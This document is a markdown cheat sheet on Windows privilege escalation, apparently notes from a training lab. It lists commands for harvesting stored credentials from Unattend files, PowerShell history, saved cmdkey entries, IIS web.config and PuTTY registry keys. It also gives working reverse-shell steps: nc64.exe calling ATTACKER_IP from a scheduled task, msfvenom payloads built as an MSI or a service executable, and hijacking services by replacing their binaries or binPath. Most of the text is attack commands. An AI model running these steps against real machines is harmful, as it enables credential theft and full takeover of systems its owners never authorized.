 # Windows
tip: use remmina for RDP
## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile` <br>

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:<br>

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

![putty](img/putty.png)

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks <br>
For details about task run `schtasks /query /tn TASK-NAME /fo list /v`<br>

To check if we the permissions we can rut `icacls FILE`<br>

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Service Misconfigurations
get info<br>
`sc qc <service>`

### Insecure Permissions on Service Executable

If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.

Use `icacls` to see permissions

![cmd](img/win-cmd1.png)
We can see (M) permission. That means we can modify the file.

`SERVICE_START_NAME` is the account used to run the service.

#### On attacker's machine
We can create a rev shell, start a python server and start listening.
<pre>
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

python3 -m http.server

nc -lvp 4445
</pre>

#### On windows machine
Use wget in powershell
<pre>
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe

cd C:\PROGRA~2\SYSTEM~1\

move WService.exe WService.exe.bkp

move C:\Users\thm-unpriv\rev-svc.exe WService.exe

icacls WService.exe /grant Everyone:F

sc stop windowsscheduler

sc start windowsscheduler
</pre>

### Unquoted Service Paths

When working with Windows services, a very particular behaviour occurs when the service is configured to point to an "unquoted" executable. By unquoted, we mean that the path of the associated executable isn't properly quoted to account for spaces on the command.

example `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`

1. First, search for `C:\\MyPrograms\\Disk.exe`. If it exists, the service will run this executable.
2. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter.exe`. If it exists, the service will run this executable.
3. If the latter doesn't exist, it will then search for `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. This option is expected to succeed and will typically be run in a default installation.

Check if you have permisions in that folder, ussualy `C:\Program Files` and `C:\Program Files (x86)` are't writabble by unprivileged user.
<pre>icacls c:\MyPrograms</pre>

You can again create a file and start a reverse shell as above.

### Insecure Service Permissions

To check for a service DACL from the command line, you can use [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite.

<pre>accesschk64.exe -qlc thmservice</pre>
![img](img/win-cmd2.png)

Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.

Create rev shell `rev-svc3.exe`
<pre>
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F

sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem

sc stop THMService

sc start THMService

</pre>

